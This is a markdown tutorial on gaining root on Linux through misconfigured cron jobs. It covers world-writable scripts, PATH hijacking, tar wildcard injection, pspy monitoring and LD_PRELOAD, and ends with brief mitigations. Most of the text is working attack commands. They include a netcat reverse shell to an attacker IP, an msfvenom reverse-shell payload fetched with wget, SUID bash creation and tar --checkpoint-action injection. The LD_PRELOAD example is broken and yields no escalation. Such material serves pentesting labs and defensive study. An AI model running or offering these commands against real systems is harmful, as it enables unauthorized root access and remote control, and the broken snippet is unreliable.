 # **Cron Job Privilege Escalation Techniques**  
*(Comprehensive Guide to Exploiting Cron Jobs for Root Access)*  

---

## **1. Understanding Cron Jobs**
### **Key Locations to Check**
```bash
cat /etc/crontab                  # System-wide cron jobs
cat /etc/cron.d/*                 # Additional cron job configurations
ls -la /etc/cron.hourly/daily/weekly/monthly  # Periodic scripts
crontab -l                        # Current user's cron jobs (if any)
```

### **Example `/etc/crontab` Analysis**
```bash
SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Scheduled Jobs:
* * * * * root overwrite.sh              # Runs every minute as root
* * * * * root /usr/local/bin/compress.sh # Runs every minute as root
```

---

## **2. Exploiting Cron Jobs**
### **A. Writable Script Exploitation**
#### **Scenario 1: `overwrite.sh` is World-Writable**
```bash
ls -la /usr/local/bin/overwrite.sh  # Check permissions
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
```
→ **Group/Others have write access!**  

#### **Exploitation Methods**
1. **Reverse Shell Method**
   ```bash
   echo 'nc 10.21.128.251 4444 -e /bin/sh' > /usr/local/bin/overwrite.sh
   chmod +x /usr/local/bin/overwrite.sh
   ```
   - **Listener:**  
     ```bash
     nc -nvlp 4444
     ```

2. **SUID Shell Method**
   ```bash
   echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /usr/local/bin/overwrite.sh
   chmod +x /usr/local/bin/overwrite.sh
   ```
   - **Get Root Shell:**  
     ```bash
     /tmp/bash -p  # -p preserves privileges
     ```

---

### **B. PATH Hijacking**
#### **Scenario 2: `PATH` Includes `/home/user` First**
```bash
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```
→ If `overwrite.sh` is called without full path, we can hijack it.

#### **Exploitation Steps**
1. **Create Malicious `overwrite.sh` in `/home/user`**
   ```bash
   echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
   chmod +x /home/user/overwrite.sh
   ```
2. **Wait for Cron Execution**
   ```bash
   ls -la /tmp/bash  # Check if SUID bash is created
   /tmp/bash -p      # Spawn root shell
   ```

---

### **C. Wildcard Exploitation in `compress.sh`**
#### **Scenario 3: Script Uses `tar *` with Wildcards**
```bash
cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *  # Vulnerable to wildcard injection
```

#### **Exploitation via `--checkpoint`**
1. **Generate a Reverse Shell Payload**
   ```bash
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.21.128.251 LPORT=4444 -f elf -o shell.elf
   ```
2. **Transfer Payload to Target**
   ```bash
   wget http://10.21.128.251:8000/shell.elf
   chmod +x shell.elf
   ```
3. **Exploit `tar` Wildcard Behavior**
   ```bash
   touch /home/user/--checkpoint=1
   touch /home/user/--checkpoint-action=exec=shell.elf
   ```
   - **Listener:**  
     ```bash
     nc -nvlp 4444
     ```
   → **Cron executes `tar`, triggering the payload as root!**

---

## **3. Advanced Techniques**
### **A. Using `pspy` to Monitor Hidden Cron Jobs**
```bash
wget http://10.21.128.251/pspy64
chmod +x pspy64
./pspy64
```
→ Reveals processes running as root (e.g., `compress.sh`, `overwrite.sh`).

### **B. Exploiting Environment Variables**
If `LD_PRELOAD` or `PYTHONPATH` is allowed:
```bash
echo 'int system(const char *c) { return 0; }' > /tmp/hijack.c
gcc -shared -o /tmp/hijack.so /tmp/hijack.c -fPIC
sudo LD_PRELOAD=/tmp/hijack.so /usr/local/bin/compress.sh
```

---

## **4. Mitigation & Best Practices**
### **How to Secure Cron Jobs**
1. **Use Absolute Paths**  
   ```bash
   /usr/bin/tar czf /tmp/backup.tar.gz /home/user/*
   ```
2. **Restrict File Permissions**  
   ```bash
   chmod 750 /usr/local/bin/compress.sh
   chown root:root /usr/local/bin/compress.sh
   ```
3. **Avoid Wildcards in Scripts**  
   ```bash
   tar czf /tmp/backup.tar.gz file1 file2  # Explicit files only
   ```
4. **Audit Cron Jobs Regularly**  
   ```bash
   grep -r "tar czf" /etc/cron* /var/spool/cron
   ```

---

## **5. References**
- **[GTFOBins](https://gtfobins.github.io/)** – Exploitable binaries in cron.  
- **[Cron Security Guide](https://help.ubuntu.com/community/CronHowto)** – Ubuntu cron best practices.  

---

### **Final Notes**
- **Always check `/etc/crontab` and `/etc/cron.d/` after gaining access.**  
- **If a script is writable, privilege escalation is trivial.**  
- **Wildcards in `tar`, `rsync`, or `chown` are dangerous!**  

🚀 **Next Steps**: Test these in a lab before real-world use!  

---

